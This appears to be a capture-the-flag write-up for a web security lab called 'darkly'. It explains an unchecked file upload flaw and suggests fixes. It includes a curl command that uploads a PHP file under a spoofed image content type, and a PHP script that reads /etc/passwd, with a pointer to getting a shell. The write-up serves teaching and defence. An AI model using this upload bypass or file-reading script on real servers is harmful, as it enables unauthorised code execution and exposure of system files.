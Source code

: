# Unchecked File Upload

## Vulnerability

In the middle of the page, there is a link `ADD IMAGE` redirecting to: [`index.php?page=upload`](http://darkly/index.php?page=upload).

Uploading a PNG file, give an error:
```
Your image was not uploaded.
```
Uploading a JPG file, give a result: 
```
/tmp/file.jpg succesfully uploaded.
```

The file content itself isn't checked. Only the file name.

Uploading a file with a name not containing `jpg` BUT still having the `jpg` content-type give the flag.
```bash
$ curl \
    -F 'Upload=Upload' \
    -F "uploaded=@exploit.php;type=image/jpg" \
    -F 'MAX_FILE_SIZE=100000' \
    'http://darkly/?page=upload'
...
<h2>The flag is : ...</h2>
...
```

## Why it is dangerous

If the user can upload an executable file on the server, they can execute it just by browsing to its url if it is exposed to the internet.

In this case, they can do:
* everything PHP as a language can do
* that is permitted to the user executing the PHP binary.

**Example 1:** if `/etc/passwd` is `-rw-r--r--`, the following script can print it to the screen:
```php
<?php
$fh = fopen('/etc/passwd','r');
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

**Example 2:** one can [get a shell](https://gtfobins.github.io/gtfobins/php/) through this script.

## Possible Fix

- Check the file magic.
- Restrict the permissions the users executing `php` has.
